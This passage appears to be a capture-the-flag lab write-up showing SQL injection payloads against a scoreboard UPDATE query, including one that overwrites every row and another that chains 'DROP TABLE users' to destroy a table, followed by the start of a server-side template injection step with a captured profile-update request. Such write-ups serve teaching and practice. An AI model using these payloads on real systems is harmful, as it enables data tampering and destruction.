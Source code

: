 **Possible SQL query:**

```sql
UPDATE table SET gold = x, silver = x, bronze = x WHERE rank = x;
```

**Injection 1**

Injection to the `gold` field:

```sql
22, silver = 22, bronze = 22;-- // explicit space after comment (--)
22, silver = 22, bronze = 22;-- - // clearer
```

```sql
UPDATE table SET gold = 22, silver = 22, bronze = 22;--, silver = x, bronze = x WHERE id = 'x';; 
```

* This action will update the `gold`, `silver` and `bronze` field to **22** for every country. With that, we know that the SQL injection worked!

**Injection 2**

Now that we have confirmed that we can perform an SQL injection attack, we can attempt to drop the `user` table again.

```sql
1 WHERE 1=1; DROP TABLE users;-- 
```

{% code overflow="wrap" %}
```sql
UPDATE table SET gold = 1 WHERE 1=1; DROP TABLE users;-- , bronze = x WHERE id = x;, silver = x, bronze = x WHERE id = x;
```
{% endcode %}

When we navigate back to the GUI, we are presented with a note that the database is down.Success!

### SSTI injection on the admin profile page

The following displays the request to update the admin profile page (Burp suite):

```http
POST /update_profile.php HTTP/1.1
Host: 10.10.82.58
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://10.10.124.140
Connection: keep-alive
Referer: http://10.10.124.140/update_profile.php
Cookie: PHPSESSID=ce44rfksrc4ecbo5pkfgrje229
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=superadmin%40injectics.thm&fname=t&lname=t
```
